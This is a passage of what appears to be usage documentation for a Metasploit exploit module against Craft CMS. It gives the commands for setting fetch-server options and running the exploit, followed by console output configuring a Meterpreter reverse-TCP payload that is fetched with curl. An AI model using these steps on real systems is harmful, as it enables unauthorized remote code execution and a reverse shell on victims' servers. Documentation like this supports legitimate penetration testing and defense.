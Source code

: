 7. Optionally, customize FTP-related settings like `SRVPORT` and `FETCH_URIPATH` if needed:
```bash
set SRVPORT 9090
set FETCH_SRVPORT 8081
set FETCH_URIPATH /custom_payload_path
```

8. Run the exploit:
```bash
exploit
```

**Expected Results**:

If the target is vulnerable, the module will successfully execute the payload and open a session, such as a Meterpreter shell:

```bash
msf exploit(linux/http/craftcms_ftp_template) > options

Module options (exploit/linux/http/craftcms_ftp_template):

   Name      Current Setting          Required  Description
   ----      ---------------          --------  -----------
   PASVPORT  0                        no        The local PASV data port to listen on (0 is random)
   Proxies                            no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS    exploit-craft.ddev.site  yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metaspl
                                                oit.html
   RPORT     80                       yes       The target port (TCP)
   SRVHOST   192.168.1.36             yes       The local host or network interface to listen on. This must be an address on the local machine
                                                 or 0.0.0.0 to listen on all addresses.
   SRVPORT   9090                     yes       The local port to listen on.
   SSL       false                    no        Negotiate SSL for incoming connections
   SSLCert                            no        Path to a custom SSL certificate (default is randomly generated)
   VHOST                              no        HTTP server virtual host


Payload options (cmd/linux/http/x64/meterpreter/reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   FETCH_COMMAND       CURL             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP, WGET)
   FETCH_DELETE        false            yes       Attempt to delete the binary after execution
   FETCH_FILENAME      QnXFYebbb        no        Name to use on remote system when storing payload; cannot contain spaces or slashes
   FETCH_SRVHOST                        no        Local IP to use for serving payload
   FETCH_SRVPORT       8081             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR                   yes       Remote writable dir to store payload; cannot contain spaces
   LHOST               192.168.1.36     yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Unix/Linux Command Shell

```